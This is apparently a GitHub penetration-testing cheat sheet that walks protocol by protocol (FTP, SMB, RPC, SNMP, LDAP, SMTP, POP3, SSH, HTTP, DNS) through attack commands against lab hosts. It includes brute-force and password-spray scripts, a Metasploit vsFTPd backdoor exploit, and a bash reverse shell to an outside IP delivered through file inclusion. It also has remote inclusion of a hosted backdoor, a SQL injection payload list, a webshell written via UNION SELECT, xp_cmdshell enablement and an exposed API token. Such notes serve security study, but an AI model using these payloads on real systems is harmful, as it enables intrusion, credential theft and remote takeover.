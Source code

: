 ## **🛡️ Network Protocols**

### Network protocols allow devices to communicate and exchange data over a network. Here’s an expanded explanation of some commonly used protocols in penetration testing:
---

<details>
<summary>1.📂 FTP (File Transfer Protocol)</summary>
 <br>   
- **Port:** 21 (TCP)
- **Function:** FTP is used for transferring files between a client and a server. FTP operates over two channels:
    - **Control channel** (for sending commands)
    - **Data channel** (for transferring the actual files).
- **Common Security Issues:**
    - **Anonymous login:** Some FTP servers are misconfigured to allow anonymous logins, providing unauthorized access to files.
    - **Clear-text credentials:** FTP sends usernames and passwords in clear text, making it vulnerable to sniffing attacks.

---

### **1.1. Penetration Testing on FTP**
FTP enumeration
```bash
ftp <IP>
#login if you have relevant creds or based on nmap scan find out whether this has an anonymous login or not, then login with Anonymous:password

put <file> #uploading file
get <file> #downloading file

#NSE
locate .nse | grep ftp
nmap -p21 --script=<name> <IP>

#bruteforce
hydra -L users.txt -P passwords.txt <IP> ftp #'-L' for usernames list, '-l' for username and vice versa

# Check for vulnerabilities associated with the identified version.
```
![image](https://github.com/user-attachments/assets/70094f78-e27a-446e-a97f-6eb39cff347c)

---
### **1.1.1. Anonymous Login**

When performing penetration testing, an attacker can attempt to log in using **anonymous credentials** if the FTP server allows it. Many misconfigured FTP servers allow anonymous access for easier file sharing, which is a security risk.

**Example FTP login attempt:**

```bash

ftp 192.168.188.131
Name: Anonymous
Password: Anonymous

```
![image](https://github.com/user-attachments/assets/00f9a1e5-3e22-4ad2-86cc-10d990b43574)


If the server allows anonymous login, you will be able to interact with the server and explore its contents.

---

### **1.1.2. Sniffing FTP Credentials (Clear-text Passwords)**

Because FTP doesn’t encrypt traffic, usernames and passwords are sent in clear text. An attacker can use sniffing tools to capture this data, which can be used to compromise the server.

- **Wireshark:** A tool that can capture network packets and allow an attacker to see the FTP credentials.

**How to sniff credentials:**

1. **Start an FTP session**:
    
    ```bash
    
    ftp 192.168.188.131
    
    ```
    
2. **Capture the traffic using Wireshark.**
3. **Follow the TCP stream** to see the credentials:
    - Look for packets containing the string `"PASS"` in Wireshark, which indicates the password being sent.

**Filter clear-text credentials:**

```
frame contains "PASS"
```
![image](https://github.com/user-attachments/assets/84ba48da-79ce-4da8-89d0-0158d5ee9db2)

---

### **1.1.3. FTP Brute-Force Attack (Hydra)**

**Hydra** is a popular tool for performing brute-force attacks against various services, including FTP. It can attempt multiple combinations of usernames and passwords to gain unauthorized access.

**Example of brute-forcing FTP login:**

```bash

hydra -L user -P pass 192.168.188.131 ftp
hydra -L wordlist.txt -P wordlist.txt 192.168.188.131 ftp
use: /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt

```

- **L** specifies a file with usernames.
- **P** specifies a file with passwords.
- **ftp** is the target protocol.

The **wordlist** file contains a list of possible usernames or passwords to be tried. A strong wordlist (such as **rockyou.txt**) increases the chance of success.
![image](https://github.com/user-attachments/assets/eafa1572-24ac-4ef1-93bd-6734b79ad5e0)

---

### **1.1.4. FTP Remote Shell via Nmap Script**

You can also use **Nmap** to exploit specific vulnerabilities in FTP servers. The `ftp-vsftpd-backdoor.nse` script is designed to exploit a vulnerability in **vsFTPd 2.3.4**, which contains a backdoor.

**Example Nmap command to check for the backdoor:**

```bash

sudo nmap -p 21 192.168.188.131 -sV --script ftp-vsftpd-backdoor.nse

```

This will test if the FTP server is vulnerable to the **vsFTPd backdoor**. If the server is vulnerable, you may be able to execute commands remotely.
![image](https://github.com/user-attachments/assets/48113953-c487-4bfa-bf04-49b376c60901)

---

### **1.1.5. Exploiting FTP Vulnerabilities with Metasploit**

Metasploit is another powerful tool used for exploiting vulnerabilities in systems. If the FTP server is running a vulnerable version of vsFTPd (e.g., **vsFTPd 2.3.4**), Metasploit can be used to exploit it.

**Steps to exploit vsFTPd 2.3.4 with Metasploit:**

1. **Search for the exploit:**
    
    ```bash
    
    msfconsole
    search vsftpd 2.3.4
    
    ```
    
2. **Use the exploit:**
    
    ```bash
  
    use exploit/unix/ftp/vsftpd_234_backdoor
    set RHOST 192.168.188.131
    exploit
    
    ```
    
3. **Interact with the remote shell:**
    
    ```bash
   
    python -c 'import pty; pty.spawn("/bin/bash")'
    
    ```
    

By exploiting this vulnerability, you can get access to the **root** account on the target machine.
![image](https://github.com/user-attachments/assets/2c266ec1-e757-4442-970e-cc713e589347)

</details> 

<details>
<summary>2.📦 NFS (Network File System)</summary>
 <br>
NFS allows a system to share its files with other systems over a network. It enables the mounting of remote file systems and interaction with them as if they were local.

**Example Nmap command to scan for NFS services:**

```bash

nmap -p2049 -sV 192.168.188.131

```

If NFS is exposed publicly, it can be mounted to the local machine and files can be accessed.

**Mounting NFS share:**

```bash

sudo mount 192.168.188.131:/ /home/kali/Downloads/nfs -nolock

```

This allows you to access shared files from the remote NFS server.
![image](https://github.com/user-attachments/assets/34ad4003-778a-4011-b5ee-1c63e17adf4a)

**Troubleshooting NFS Mount Permission Issues:**

If you encounter **Permission Denied**, ensure that you have the correct NFS version and permissions configured.
https://blog.christophetd.fr/write-up-vulnix/
**To use NFSv3 (if needed):**

```bash

sudo mount -t nfs -o vers=3 192.168.188.137:/home/vulnix /home/kali/Downloads/nfs/home/vulnix -nolock

```
Let’s take a closer look at the permissions. 
```bash
ls -ld vulnix
```
If only Particuler user or group have access to the Path:
create a user group:
```jsx
sudo groupadd --gid 2008 vulnix_group
sudo useradd --uid 2008 --groups vulnix_group vulnix
sudo -u vulnix ls -l vulnix
```

![image](https://github.com/user-attachments/assets/c5978efc-c909-48b1-8165-5705d484ef0a)


DEBUG

```jsx
id vulnix
```

Ensure it outputs:

```jsx
uid=2008(vulnix) gid=2008(vulnix_group) groups=2008(vulnix_group)
```

If the UID or GID is incorrect, you must delete and recreate the user with:

```jsx
sudo userdel vulnix
sudo groupdel vulnix_group
sudo groupadd --gid 2008 vulnix_group
sudo useradd --uid 2008 --gid 2008 --groups vulnix_group vulnix
```

Now, try accessing the directory as `vulnix_user`:
![image](https://github.com/user-attachments/assets/90546368-1291-4e7a-b7c9-52a148eef779)

</details>

<details>
<summary>3.🗂️ SMB (Server Message Block)</summary>
 <br>
SMB is a protocol used for file and printer sharing, as well as inter-process communication between computers.

**Example Nmap command to scan for SMB services:**

```bash

sudo nmap -p 445 -sV -sC 192.168.188.131
locate .nse | grep smb
nmap -p445 --script="name" $IP 

```
![image](https://github.com/user-attachments/assets/5f4b1ffc-baab-4de5-9c0f-dcb520401b1c)


**Enumerating SMB Shares:**

```bash
#In windows we can view like this
net view \\<computername/IP> /all

enum4linux -L -S 192.168.188.131
smbclient -L 192.168.188.131 -N
smbmap -H 192.168.188.131
#If you got user name and password:
smbmap -H 192.168.188.131 -u "msfadmin" -p "msfadmin" -r tmp -A '.*' -q

```

**Brute-forcing SMB credentials:**

```bash

hydra -l admin -P /home/kali/pass.txt smb://192.168.188.131
or
netexec smb 192.168.188.131 -u admin -p /home/kali/pass.txt --continue-on-success

```
![image](https://github.com/user-attachments/assets/c592d34d-613f-49b5-9a92-c3b8c951958a)
```bash
# Smbclient
smbclient -L //IP #or try with 4 /'s
smbclient //server/share
smbclient //server/share -U <username>
smbclient //server/share -U domain/username

#SMBmap
smbmap -H <target_ip>
smbmap -H <target_ip> -u <username> -p <password>
smbmap -H <target_ip> -u <username> -p <password> -d <domain>
smbmap -H <target_ip> -u <username> -p <password> -r <share_name>

#Within SMB session
put <file> #to upload file
get <file> #to download file
```
Downloading shares is easy—if the folder consists of several files, they will all be downloaded by this.
```bash
mask ""
recurse ON
prompt OFF
mget *
```
**Exploit SMB:**
Try to connect with no pass

```jsx
smbclient --no-pass //192.168.188.131/tmp
```

login as Anonymous:

![image](https://github.com/user-attachments/assets/1e13a6c6-3293-4bf3-a01e-bb3303698da0)


since we have smb access i tried:
```jsx
put rev.sh
posix 
chmod +x rev.sh
chown Anonymous rev.sh
open rev.sh
```
But didnt work:
Failed to open file /rev.sh. NT_STATUS_ACCESS_DENIED
![image](https://github.com/user-attachments/assets/4a71afb8-42f0-471e-bebb-bc7bc0a83107)

SMB Version Samba 3.0.20 found, search for exploits:
```bash
searchsploit samba 3.0.20  
locate multiple/remote/10095.txt
cat /usr/share/exploitdb/exploits/multiple/remote/10095.txt
```
![image](https://github.com/user-attachments/assets/6603e3bd-03ea-4424-8d4c-f3aac3acdd52)

</details>

<details>
<summary>4.🔌 RPC (Remote Procedure Call)</summary>
 <br>
RPC allows a program on one computer to execute a procedure on another computer.

**Enumerating with RPCClient:**
**Connect to RPC server with an anonymous bind:**
```bash

$ rpcclient -U "" -N <target>
srvinfo
enumdomusers #Enumerate Domain Users
enumpriv #like "whoami /priv"
queryuser <user> #detailed user info
getuserdompwinfo <RID> #password policy, get user-RID from previous command
getdompwinfo #Get Domain Password Info
lookupnames <user> #SID of specified user
createdomuser <username> #Creating a user
deletedomuser <username>
enumdomains
enumdomgroups # Enumerate Domain Groups
querygroup <group-RID> #get rid from previous command
querydispinfo #description of all users
querygroupmem 0x200 #Query Group Membership
netshareenum #Share enumeration, this only comesup if the current user we're logged in has permissions
netshareenumall
lsaenumsid #SID of all users

```

This will provide information about the target system and its users.
![image](https://github.com/user-attachments/assets/1a5d498c-8a6d-4a91-b017-69b62a6cb5e2)

“RID are relative identifier to identify an object which will be in hexa decimal format”

![image](https://github.com/user-attachments/assets/d3e9af35-e0b2-4c72-b893-e7a24141b82a)

**Password Spray Attack**

The following script will iterate over usernames and passwords and try to execute "getusername". Watch out for "ACCOUNT_LOCKED" error messages.

```
TARGET=10.10.10.10;
while read username; do
  while read password; do
    echo -n "[*] user: $username" && rpcclient -U "$username%$password" -c "getusername;quit" $TARGET | grep -v "NT_STATUS_ACCESS_DENIED";
  done < /path/to/passwords.txt
done < /path/to/usernames.txt
```

If a password is found, use it with smbclient to explore the SYSVOL:

```
$ smbclient -U "username%password" \\\\<target>\\SYSVOL
Domain=[HOME] OS=[Windows Server 2008]
...
smb: \> ls
...
```
---
</details>

<details>
<summary>5.📡 SNMP (Simple Network Management Protocol)</summary>
 <br>

SNMP is used to manage and monitor network devices. It can be exploited if the community string is weak or known (like **public** or **private**).
![image](https://github.com/user-attachments/assets/c4d02453-3331-4739-bf58-f38aea7a6133)

**Example SNMP enumeration with `snmpcheck`:**

```bash

snmpcheck -c public -h 192.168.188.131
snmpcheck -t <IP> -c public #Better version than snmpwalk as it displays more user friendly

snmpwalk -c public -v1 -t 10 <IP> #Displays entire MIB tree, MIB Means Management Information Base
snmpwalk -c public -v1 <IP> 1.3.6.1.4.1.77.1.2.25 #Windows User enumeration
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.25.4.2.1.2 #Windows Processes enumeration
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.25.6.3.1.2 #Installed software enumeraion
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.6.13.1.3 #Opened TCP Ports

#Windows MIB values
1.3.6.1.2.1.25.1.6.0 - System Processes
1.3.6.1.2.1.25.4.2.1.2 - Running Programs
1.3.6.1.2.1.25.4.2.1.4 - Processes Path
1.3.6.1.2.1.25.2.3.1.4 - Storage Units
1.3.6.1.2.1.25.6.3.1.2 - Software Name
1.3.6.1.4.1.77.1.2.25 - User Accounts
1.3.6.1.2.1.6.13.1.3 - TCP Local Ports

```
if community string was public try to connect with snmpcheck
![image](https://github.com/user-attachments/assets/1eef5dc1-7a3e-40e9-9b37-ce2bfea237d9)

try to use snmp walk
![image](https://github.com/user-attachments/assets/3a136368-a50b-4fb4-a7dd-63d72ed69358)

**Brute-forcing SNMP community strings:**

```bash

onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 192.168.146.156
or
snmpwalk -v1 -c public 192.168.146.156 NET-SNMP-EXTEND-MIB :: nsExtendObjects

```
https://hacktricks.boitatech.com.br/pentesting/pentesting-snmp/snmp-rce

</details>

<details>
<summary>6.📚 LDAP (Lightweight Directory Access Protocol)</summary>
 <br>
LDAP is a protocol used to access and maintain directory information. It is commonly used for managing user information and authentication.

**Enumerating LDAP:**

```bash

ldapsearch -x -H ldap://<IP> -b "dc=example,dc=com"
ldapsearch -x -H ldap://<IP>:<port> # try on both ldap and ldaps, this is first command to run if you dont have any valid credentials.

ldapsearch -x -H ldap://<IP> -D '' -w '' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
#CN name describes the info we're collecting
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Computers,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Users,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Enterprise Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Administrators,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Remote Desktop Users,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"

#windapsearch.py
#for computers
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --computers

#for groups
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --groups

#for users
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --da

#for privileged users
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --privileged-users

```

You can also enumerate users and gather information from LDAP directories.

**Using Metasploit for LDAP enumeration:**

```bash

msfconsole
use auxiliary/gather/ldap_query
set RHOSTS <IP>
set BASE "dc=example,dc=com"
run

```

</details>

<details>
 <summary>7. SMTP (Simple Mail Transfer Protocol)</summary>
 <br>
SMTP is used for sending and receiving emails. It can be exploited in cases of misconfiguration, such as **open relay** or **user enumeration**.

**Enumerating SMTP:**

```bash
nc -nv <IP> 25 #Version Detection
smtp-user-enum -M VRFY -U username.txt -t <IP> # -M means mode; it can be RCPT, VRFY, EXPN

#Sending email with valid credentials, the below is an example of Phishing mail attack
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap

```

This can be used to find valid email addresses on the target system.

**Exploiting Open Relay (sending emails):**

```bash

telnet <IP> 25
HELO attacker.com
MAIL FROM: attacker@attacker.com
RCPT TO: victim@victim.com
DATA
Subject: Test
This is a test email.
.

```
</details>

<details>
<summary>8. POP3 (Post Office Protocol Version 3)</summary>
 <br>
**Post Office Protocol** \(**POP**\) is a type of computer networking and Internet standard **protocol** that extracts and retrieves email from a remote mail server for access by the host machine. **POP** is an application layer **protocol** in the OSI model that provides end users the ability to fetch and receive email \(from [here](https://www.techopedia.com/definition/5383/post-office-protocol-pop)\).

The POP clients generally connect, retrieve all messages, store them on the client system, and delete them from the server. There are 3 versions of POP, but POP3 is the most used one.

**Default ports:** 110, 995\(ssl\)

```text
PORT    STATE SERVICE
110/tcp open  pop3
```

## Enumeration

### Banner Grabbing

```bash
nc -nv <IP> 110
openssl s_client -connect <IP>:995 -crlf -quiet
```

## Manual

You can use the command `CAPA` to obtain the capabilities of the POP3 server.

## Automated

```bash
nmap --script "pop3-capabilities or pop3-ntlm-info" -sV -port <PORT> <IP> #All are default scripts
```

The `pop3-ntlm-info` plugin will return some "**sensitive**" data \(Windows versions\).

### [POP3 bruteforce](../brute-force.md#pop)

## POP syntax

```bash
POP commands:
  USER uid           Log in as "uid"
  PASS password      Substitue "password" for your actual password
  STAT               List number of messages, total mailbox size
  LIST               List messages and sizes
  RETR n             Show message n
  DELE n             Mark message n for deletion
  RSET               Undo any changes
  QUIT               Logout (expunges messages if no RSET)
  TOP msg n          Show first n lines of message number msg
  CAPA               Get capabilities
```

From [here](http://sunnyoasis.com/services/emailviatelnet.html)

Example:

```text
root@kali:~# telnet $ip 110
 +OK beta POP3 server (JAMES POP3 Server 2.3.2) ready 
 USER billydean    
 +OK
 PASS password
 +OK Welcome billydean

 list

 +OK 2 1807
 1 786
 2 1021

 retr 1

 +OK Message follows
 From: jamesbrown@motown.com
 Dear Billy Dean,

 Here is your login for remote desktop ... try not to forget it this time!
 username: billydean
 password: PA$$W0RD!Z
```

```

### Identifying Issues

- Clear-text authentication (no SSL/TLS).
- Weak credentials (try common usernames/passwords).
- Default or anonymous access.

### Exploiting

```bash

# Manual login attempt
telnet <IP> 110
USER <username>
PASS <password>

# Hydra brute force
hydra -l <username> -P /usr/share/wordlists/rockyou.txt -s 110 -vV <IP> pop3

```

### References

- HackTricks - POP3
- POP3 RFC 1939
</details>

<details>
<summary>9.🔒 SSH (Secure Shell) </summary>
 <br>
**Secure Shell (SSH)** is a cryptographic network protocol designed for secure communication over an unsecured network. It is primarily used for remote login and command-line execution, replacing older, less secure protocols like Telnet and rlogin
https://www.ssh.com/academy/ssh/public-key-authentication

## SSH enumeration

```
#Login
ssh uname@IP #enter the password in the prompt

#id_rsa or id_ecdsa file
chmod 600 id_rsa/id_ecdsa
ssh uname@IP -i id_rsa/id_ecdsa #if it still asks for the password, crack it using John

#cracking id_rsa or id_ecdsa
ssh2john id_ecdsa(or)id_rsa > hash
john --wordlist=/home/sathvik/Wordlists/rockyou.txt hash

#bruteforce
hydra -l uname -P passwords.txt <IP> ssh #'-L' for usernames list, '-l' for username and vice versa

# Check for vulnerabilities associated with the identified version.
```
Use full commands:
- `t rsa`: Specifies the RSA algorithm.
- `b 4096`: Specifies the key length (4096 bits is recommended).
- You can also use `b 2048` for a shorter key length.
- **Follow the prompts:**
- Enter the path to save the key (default is `~/.ssh/id_rsa`).
- Enter a passphrase for the private key (optional but recommended for security).
- You'll have a public key (`~/.ssh/id_rsa.pub`) and a private key (`~/.ssh/id_rsa`).

**2. Copy the Public Key to the Server:**

Use the ssh-copy-id command.

Code

```jsx
    ssh-copy-id -i ~/.ssh/id_rsa.pub user@server_ip_or_hostname
```

- Replace `user` with your username on the server.
- Replace `server_ip_or_hostname` with the server's IP address or hostname.
- **Alternatively, manually copy the public key:**
- Read the contents of `~/.ssh/id_rsa.pub`.
- SSH into the server.
- Create the directory `~/.ssh` if it doesn't exist.
- Create or edit the file `~/.ssh/authorized_keys`.
- Append the contents of your public key to the `authorized_keys` file.
- Change the permissions of `~/.ssh` to `700` and `authorized_keys` to `600`.

Code

```jsx
    mkdir -p ~/.ssh    chmod 700 ~/.ssh   
    touch ~/.ssh/authorized_keys    
    chmod 600 ~/.ssh/authorized_keys    
    cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
```

**3. Log in with the Private Key:**

- **Open your terminal**: on your local machine.
- Use the `ssh` command with the `i` option:
  ```jsx
  ssh -i ~/.ssh/id_rsa user@server_ip_or_hostname
  ssh -oHostKeyAlgorithms=+ssh-rsa TCM@10.10.81.58 -p22
  ```
  ![image](https://github.com/user-attachments/assets/bdb18c28-6296-4013-bd28-4d6edafd81e9)
</details>
  
<details>
<summary>10. HTTP/S (Hypertext Transfer Protocol)</summary>
 <br>
- View the source code and identify any hidden content. If an image looks suspicious, download it and try to find hidden data in it.
- Identify the version or CMS and check for active exploits. This can be done using Nmap and Wappalyzer.
- check /robots.txt folder
- Look for the hostname and add the relevant one to `/etc/hosts` file.
- Directory and file discovery - Obtain any hidden files that may contain juicy information

```
dirbuster
gobuster dir -u http://example.com -w /path/to/wordlist.txt
python3 dirsearch.py -u http://example.com -w /path/to/wordlist.txt
```

- Vulnerability Scanning using nikto: `nikto -h <url>`
- `HTTPS`SSL certificate inspection, may reveal information like subdomains, usernames…etc
- Default credentials: Identify the CMS or service, check for default credentials, and test them out.
- Bruteforce

```
hydra -L users.txt -P password.txt <IP or domain> http-{post/get}-form "/path:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
# Use https-post-form mode for https, post, or get, which can be obtained from Burpsuite. Also, capture the response for detailed information.

#Bruteforce can also be done by Burpsuite but it's slow, prefer Hydra!
```

- if `cgi-bin` is present, then do further fuzzing and obtain files like .sh or .pl
- Check if other services like FTP/SMB or any other that has upload privileges are getting reflected on the web.
- API - Fuzz further, and it can reveal some sensitive information

```
#identifying endpoints using gobuster
gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern #pattern can be like {GOBUSTER}/v1 here v1 is just for example, it can be anything

#obtaining info using curl
curl -i http://192.168.50.16:5002/users/v1
```

- If there is any Input field check for **Remote Code execution** or **SQL Injection**
- Check the URL, whether we can leverage **Local or Remote File Inclusion**.
- Also check if there’s any file upload utility(also obtain the location it’s getting reflected)

**Wordpress**

```
# basic usage
wpscan --url "target" --verbose

# enumerate vulnerable plugins, users, vulnerable themes, timthumbs
wpscan --url "target" --enumerate vp,u,vt,tt --follow-redirection --verbose --log target.log

# Add Wpscan API to get the details of vulnerabilties.
wpscan --url http://alvida-eatery.org/ --api-token NjnoSGZkuWDve0fDjmmnUNb1ZnkRw6J2J1FvBsVLPkA

#Accessing Wordpress shell
http://10.10.67.245/retro/wp-admin/theme-editor.php?file=404.php&theme=90s-retro

http://10.10.67.245/retro/wp-content/themes/90s-retro/404.php
```

**Drupal**

```
droopescan scan drupal -u http://site
```

**Joomla**

```
droopescan scan joomla --url http://site
sudo python3 joomla-brute.py -u http://site/ -w passwords.txt -usr username #https://github.com/ajnik/joomla-bruteforce
```
### **Web Attacks**

💡 Cross-platform PHP revershell: [

https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php))

**Directory Traversal**

```
cat /etc/passwd #displaying content through absolute path
cat ../../../etc/passwd #relative path

# if the pwd is /var/log/ then in order to view the /etc/passwd it will be like this
cat ../../etc/passwd

#In web int should be exploited like this, find a parameters and test it out
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
#check for id_rsa, id_ecdsa
#If the output is not getting formatted properly then,
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd

#For windows
http://192.168.221.193:3000/public/plugins/alertlist/../../../../../../../../Users/install.txt #no need to provide drive
```

- URL Encoding

```
#Sometimes it doesn't show if we try path, then we need to encode them
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

- Wordpress
    - Simple exploit: https://github.com/leonjza/wordpress-shell

**Local File Inclusion**

- The main difference between Directory traversal and this attack is that we can execute commands remotely here.

```
#At first we need
http://192.168.45.125/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=whoami #we're passing a command here

#Reverse shells
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"#We can simply pass a reverse shell to the cmd parameter and obtain reverse-shell
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22 #encoded version of above reverse-shell

#PHP wrapper
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('uname%20-a');?>"
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=/var/www/html/backup.php
```

- Remote file inclusion

```
1. Obtain a php shell
2. host a file server
3.
http://mountaindesserts.com/meteor/index.php?page=http://attacker-ip/simple-backdoor.php&cmd=ls
we can also host a php reverseshell and obtain shell.
```

**SQL Injection**

```
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```

- Blind SQL Injection - This can be identified by Time-based SQLI

```
#Application takes some time to reload, here it is 3 seconds
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```

- Manual Code Execution

```
kali> impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth #To login
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
#Now we can run commands
EXECUTE xp_cmdshell 'whoami';

#Sometimes we may not have direct access to convert it to RCE from the web, then follow the below steps
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- // #Writing into a new file
#Now we can exploit it
http://192.168.45.285/tmp/webshell.php?cmd=id #Command execution
```

- SQLMap - Automated Code Execution

```
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user #Testing on parameter names "user", we'll get confirmation
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump #Dumping database

#OS Shell
#  Obtain the Post request from Burp suite and save it to post.txt
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp" #/var/www/html/tmp is the writable folder on target, hence we're writing there

```
</details>

<details>
<summary>11. DNS (Domain Name System)</summary>
 <br>
- Better use `Seclists` wordlists for better enumeration. https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS

```
host www.megacorpone.com
host -t mx megacorpone.com
host -t txt megacorpone.com

for ip in $(cat list.txt); do host $ip.megacorpone.com; done #DNS Bruteforce
for ip in $(seq 200 254); do host 51.222.169.$ip; done | grep -v "not found" #bash bruteforcer to find domain name

## DNS Recon
dnsrecon -d megacorpone.com -t std #standard recon
dnsrecon -d megacorpone.com -D ~/list.txt -t brt #bruteforce, hence we provided list

# DNS Bruteforce using dnsenum
dnsenum megacorpone.com

## NSlookup, a gold mine
nslookup mail.megacorptwo.com
nslookup -type=TXT info.megacorptwo.com 192.168.50.151 #We are querying the information from a specific IP, here it is 192.168.50.151. This can be very useful
```
</details>
